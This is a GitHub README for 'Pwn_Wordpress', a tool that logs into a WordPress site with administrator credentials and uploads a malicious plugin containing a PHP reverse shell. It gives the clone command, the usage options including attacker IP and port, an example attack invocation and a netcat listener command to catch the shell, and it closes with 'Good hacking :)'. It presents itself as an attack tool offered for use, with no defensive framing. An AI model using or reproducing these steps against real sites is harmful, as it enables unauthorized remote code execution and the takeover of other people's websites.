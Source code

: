 ![LOGO](https://github.com/JoaoPedroMoreira02/Pwn_Wordpress/assets/103542430/7c6e38fe-7fda-4f97-9da1-b1a619f975d2)


# Evil Wordpress Plugin (Malicous)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/JoaoPedroMoreira02/Pwn_Wordpress.git
```
    
## Parameters [Running Script]

Help section (-h)

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```

Attacking the Target Website: 

```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

Executing Handler

```bash 
nc -lvp {LOCAL PORT}
```

The script will automatically give you the connection. 

***---> In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program <---***
 
***---> Correct Syntax: "http://IP/wordpress | Wrong syntax: http://IP/wordpress/ <---***

## 

- ***Good hacking :)***




